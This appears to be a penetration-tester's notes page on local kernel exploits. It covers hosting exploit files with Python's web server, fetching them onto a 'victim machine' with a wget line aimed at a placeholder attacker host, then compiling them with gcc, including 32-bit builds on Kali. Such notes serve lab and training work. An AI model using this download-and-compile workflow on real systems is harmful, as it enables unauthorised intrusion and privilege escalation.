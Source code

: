 # Working with exploits
This section is mostly about local kernel exploits, because they're annoying. Remote python exploits are usually point-and-shoot and web exploits have their own section.

## Transferring exploits
The quickest way to transfer an exploit is to create a folder for your exploits and expose it with Python's webserver:
```
python -m SimpleHTTPServer 80
```
The port defaults to 8000 but 80 and 443 are usually more accessible, and wget will use 80 by default. Make sure your port choice doesn't conflict with your shell. 

To download files to the victim machine:
```
wget http://[attack machine]:[port]/exploit.c
```
Make sure you are in a writable directory,`/tmp/` is usually reliable.

## Compiling exploits
First, the usual warning about randomly downloading exploits from the internet: watch out for backdoors. [Exploit-DB](https://www.exploit-db.com/) is reliable.

Second, always read the exploit comments carefully:

* Compiler options to use
* Architecture of the victim machine (32-bit or 64-bit)
* Steps to complete on the victim machine
* Code modifications

Third, if you get error messages during compilation or runtime, google them. Usually this is because the binary was compiled on the attack machine and there are quirks in architecture that can be solved by modifying compile options.

### Basic technique
The compile command looks like this:
```
gcc filename.c -o executablename
```
Before you can run it, you'll need to transfer it to the victim machine and give it the right permissions:
```
chmod u+x executablename
```

### Compiling 32-bit exploits on a 64-bit machine
If a C compiler is missing or inaccessible on your victim machine, you can compile the exploits on your Kali machine but you need some extra libraries on Kali:
```
apt-get install gcc-multilib
apt-get install g++-multilib
```
You will also need to add the `-m32` flag to your compile command.

